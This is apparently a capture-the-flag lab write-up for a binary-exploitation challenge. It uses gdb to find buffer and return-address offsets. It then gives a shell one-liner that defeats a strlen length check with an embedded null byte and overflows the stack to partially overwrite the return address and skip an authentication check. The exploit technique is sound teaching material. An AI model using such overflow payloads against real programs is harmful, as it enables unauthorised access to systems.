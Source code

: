# String Lengths (hard)

1. In gdb, `disas win_authed`, `disas main`, `disas challenge`, we get to know:
    - Instruction after auth check is at **0x1797**
    - challenge() returns at **0x1ace**
    - return value of strlen() must be <= **0x70** = 112

2. Set a breakpoint `b *challenge+413`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffcc677a8f0**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffcc677a850**, which is **rbp-0xa0** = rbp-160
    - return address is stored at **0x7ffcc677a8f8**, which is **rbp+0x8** = rbp+8
5. 168 a's followed by desired two bytes (one of the 4 nibbles is a guess, so have to run the exploit a few times):

    ```shell
    echo -n -e "aaaaa\x00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x97\x17" | /challenge/binary-exploitation-null-write 
    ```
